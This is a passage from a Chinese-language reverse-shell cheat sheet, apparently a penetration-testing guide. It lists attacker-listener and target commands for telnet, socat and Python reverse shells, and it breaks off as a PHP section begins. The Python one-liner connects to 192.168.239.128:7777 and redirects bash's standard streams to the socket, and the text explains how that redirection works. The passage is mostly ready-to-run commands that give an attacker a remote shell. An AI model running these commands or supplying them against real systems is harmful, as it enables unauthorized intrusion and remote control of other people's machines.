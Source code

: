 * 第二步


靶机：

```bash
telnet [攻击机ip] [port1] | /bin/bash | telnet [攻击机ip] [port2]
```

5. **socat反弹**

* 第一步

  攻击机：

  ```bash
  nc -nvlp [port]
  ```

* 第二步

  靶机：

  ```bash
  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[攻击机ip]:[port]
  ```

6. **python反弹**

* 第一步

攻击机：

```bash
nc -nvlp [port]
```

* 第二步

靶机：

~~~bash
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.239.128',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
~~~

首先使用socket与远程建立起连接，接下来使用到了os库的dup2方法将标准输入、标准输出、标准错误输出重定向到远程，dup2这个方法有两个参数，分别为文件描述符fd1和fd2，当fd2参数存在时，就关闭fd2，然后将fd1代表的那个文件强行复制给fd2，在这里可以把fd1和fd2看作是C语言里的指针，将fd1赋值给fd2，就相当于将fd2指向于s.fileno()，fileno()返回的是一个文件描述符，在这里也就是建立socket连接返回的文件描述符。于是这样就相当于将标准输入(0)、标准输出(1)、标准错误输出(2)重定向到远程(3)，接下来使用os的subprocess在本地开启一个子进程，传入参数“-i”使bash以交互模式启动，标准输入、标准输出、标准错误输出又被重定向到了远程，这样的话就可以在远程执行输入命令了。

7. **php反弹**

**前提**

php需要关闭safe_mode选项，才能使用php的exec函数执行反弹shell的命令。

**步骤**

* 第一步

  攻击机：
